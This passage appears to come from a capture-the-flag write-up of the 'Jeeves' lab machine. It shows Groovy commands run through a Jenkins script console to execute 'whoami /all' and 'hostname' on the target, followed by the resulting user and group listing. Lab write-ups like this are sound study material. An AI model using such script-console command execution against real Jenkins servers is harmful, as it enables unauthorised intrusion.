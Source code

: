 ![Script console](jeeves-script-console.png)

Then insert a few Groovy commands to test the access :

```bash
println "whoami /all".execute().text
println "hostname".execute().text
```

Output :

```text
USER INFORMATION
----------------

User Name      SID                                        
============== ===========================================
jeeves\kohsuke S-1-5-21-2851396806-8246019-2289784878-1001


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
```